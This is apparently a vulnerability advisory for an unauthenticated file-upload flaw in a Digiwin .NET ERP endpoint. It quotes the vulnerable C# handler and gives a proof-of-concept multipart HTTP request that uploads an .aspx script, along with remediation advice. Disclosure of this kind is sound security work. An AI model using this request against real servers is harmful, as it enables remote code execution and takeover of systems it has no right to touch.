


# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

## Vendor Homepage

https://www.digiwin.com/

### Summary:
A critical security vulnerability has been identified in the file upload functionality of the .NET system. This vulnerability allows unauthenticated users to upload arbitrary files, which can lead to remote code execution (RCE) and potentially grant attackers full control over the server.

### Affected Endpoint:
`/Api/FileUploadApi.ashx?method=DoUpload`

### Vulnerability Type:
Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Vulnerable Code:
Below is the vulnerable code snippet responsible for handling file uploads:

```csharp
[RequestCheck(CheckLogin = false, Name = "app文件上传", CheckParams = "username,userid,menucode,key,value,filename,filesize")]
public void DoUpload()
{
  string str1 = this.bImpl.Request("filename");
  long int64 = this.bImpl.Request("filesize").ToInt64();
  string str2 = this.bImpl.Request("value");
  string str3 = this.bImpl.Request("fileNo");
  Hashtable hashtable = new Hashtable();
  hashtable.Add((object) "username", (object) this.user.UserName);
  hashtable.Add((object) "userid", (object) this.user.UserId);
  hashtable.Add((object) "key", (object) this.bImpl.Request("key"));
  hashtable.Add((object) "value", (object) str2);
  hashtable.Add((object) "filename", (object) str1);
  hashtable.Add((object) "filesize", (object) int64);
  hashtable.Add((object) "fileNo", (object) str3);
  hashtable.Add((object) "menucode", (object) this.ModuleId);
  Hashtable fInfos = hashtable;
  Stream inputStream = HttpContext.Current.Request.InputStream;
  byte[] buffer = new byte[inputStream.Length];
  inputStream.Read(buffer, 0, buffer.Length);
  if (!this.Fimpl.Save(buffer, fInfos).success)
    return;
  this.response = this.Fimpl.AddFileInfo(fInfos);
}


public BaseResponse Save(byte[] buffer, Hashtable fInfos)
{
  fInfos[(object) "username"]?.ToString();
  fInfos[(object) "userid"]?.ToString();
  string str1 = fInfos[(object) "menucode"]?.ToString() ?? "";
  fInfos[(object) "key"]?.ToString();
  string str2 = fInfos[(object) "value"]?.ToString() ?? "";
  string tempFileName = this.toTempFileName(fInfos[(object) "filename"]?.ToString() ?? "");
  fInfos[(object) "filesize"]?.ToString();
  string str3 = fInfos[(object) "fileNo"]?.ToString() ?? "";
  int int32 = fInfos[(object) "position"].ToInt32();
  return FileUtil.SaveFile(buffer, (long) int32, 0L, string.Format(Lskj.WebErp.Core.Util.WebConfigUtil.PubModelAccFilePath, (object) str1, (object) str2, (object) str3), tempFileName, this.AppDomain, true);
}
```

### Proof of Concept (PoC):
The following HTTP request demonstrates how an unauthenticated user can exploit this vulnerability to upload a malicious file.

```http
POST /Api/FileUploadApi.ashx?method=DoUpload HTTP/1.1
Host: [TARGET_HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

<% @ Page Language="C#" %>
<% Response.Write("RCE Test"); %>
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
An attacker can exploit this vulnerability to upload a malicious ASP.NET script file (`.aspx`) to the server. This script can then be executed by accessing it via a web browser, leading to remote code execution and allowing the attacker to execute arbitrary commands on the server, potentially leading to full system compromise.

### Recommendation:
1. **Authentication Check**: Ensure that file upload functionality requires proper authentication. The `CheckLogin` attribute should be set to `true`.
2. **File Type Validation**: Implement strict file type validation to ensure only allowed file types can be uploaded.
3. **File Content Validation**: Validate the contents of the uploaded file to prevent the upload of malicious scripts.
4. **File Storage Location**: Store uploaded files outside the web root directory to prevent direct access and execution.
5. **Regular Security Audits**: Conduct regular security audits and code reviews to identify and mitigate potential vulnerabilities.

### Conclusion:
This critical vulnerability should be addressed immediately to prevent potential exploitation. By implementing the recommended security measures, the risk of unauthorized file uploads and remote code execution can be significantly reduced.

### References:
- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [Microsoft Secure Coding Guidelines](https://docs.microsoft.com/en-us/dotnet/standard/security/secure-coding-guidelines)